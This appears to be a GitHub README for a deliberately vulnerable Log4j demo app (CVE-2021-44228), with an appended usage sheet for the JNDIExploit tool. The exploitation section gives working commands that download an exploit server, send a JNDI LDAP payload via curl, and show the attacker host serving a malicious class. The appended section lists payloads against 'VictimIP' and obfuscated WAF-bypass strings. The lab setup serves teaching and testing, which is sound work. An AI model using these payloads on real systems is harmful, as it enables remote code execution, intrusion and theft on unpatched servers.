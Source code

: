 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it:

```bash
docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). Just append `web.archive.org` in front of the JNDIExploit download URL below to use the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)

## JNDI-Exploit-1.2-log4shell
 Details : CVE-2021-44228

Usage :  

```
-----------------------------------------------------

java -jar JNDIExploit-1.2.jar -i AttackerIP

  * -i, --ip       Local ip address
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show usage (default: false)
    -h, --help     Show this help

-----------------------------------------------------

```
Basic Payloads :

```
curl VictimIP/Domain -H 'X-Api-Version: ${jndi:ldap://AttackerIP:LDAP_PORT/}'

curl VictimIP/Domain -H 'User-Agent: ${jndi:ldap://AttackerIP:LDAP_PORT/Basic/Command/Base64/[base64_encoded_cmd]}
```
WAF bypass :
```
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://AttackerIP:LDAP_PORT/Basic/Command/Base64/[base64_encoded_cmd]}

${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//URL.com/a}

${j${lower:n}d${lower:i}${lower::}${lower:l}d${lower:a}p${lower::}${lower:/}/${lower:1}${lower:2}${lower:7}.${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}0${lower:9}${lower:9}/${lower:o}${lower:b}j}
 
${${upper:j}${lower:n}${lower:d}${lower:i}${lower::}${lower:l}${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}${lower:1}${lower:2}${lower:7}${lower:.}${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}${lower:0}${lower:9}${lower:9}${lower:/}${lower:o}${lower:b}${lower:j}}
 
${${nuDV:CW:yqL:dWTUHX:-j}n${obpOW:C:-d}${ll:-i}:${GI:-l}d${YRYWp:yjkg:wrsb:RajYR:-a}p://${RHe:-1}2${Qmox:dC:MB:-7}${ucP:yQH:xYtT:WCVX:-.}0.${WQRvpR:ligza:J:DSBUAv:-0}.${v:-1}:${p:KJ:-1}${Ek:gyx:klkQMP:-0}${UqY:cE:LPJtt:L:ntC:-9}${NR:LXqcg:-9}/o${fzg:rsHKT:-b}j}
 
${${uPBeLd:JghU:kyH:C:TURit:-j}${odX:t:STGD:UaqOvq:wANmU:-n}${mgSejH:tpr:zWlb:-d}${ohw:Yyz:OuptUo:gTKe:BFxGG:-i}${fGX:L:KhSyJ:-:}${E:o:wsyhug:LGVMcx:-l}${Prz:-d}${d:PeH:OmFo:GId:-a}${NLsTHo:-p}${uwF:eszIV:QSvP:-:}${JF:l:U:-/}${AyEC:rOLocm:-/}${jkJFS:r:xYzF:Frpi:he:-1}${PWtKH:w:uMiHM:vxI:-2}${a:-7}${sKiDNh:ilypjq:zemKm:-.}${QYpbY:P:dkXtCk:-0}${Iwv:TmFtBR:f:PJ:-.}${Q:-0}${LX:fMVyGy:-.}${lS:Mged:X:th:Yarx:-1}${xxOTJ:-:}${JIUlWM:-1}${Mt:Wxhdp:Rr:LuAa:QLUpW:-0}${sa:kTPw:UnP:-9}${HuDQED:-9}${modEYg:UeKXl:YJAt:pAl:u:-/}${BPJYbu:miTDQJ:-o}${VLeIR:VMYlY:f:Gaso:cVApg:-b}${sywJIr:RbbDTB:JXYr:ePKz:-j}}

```
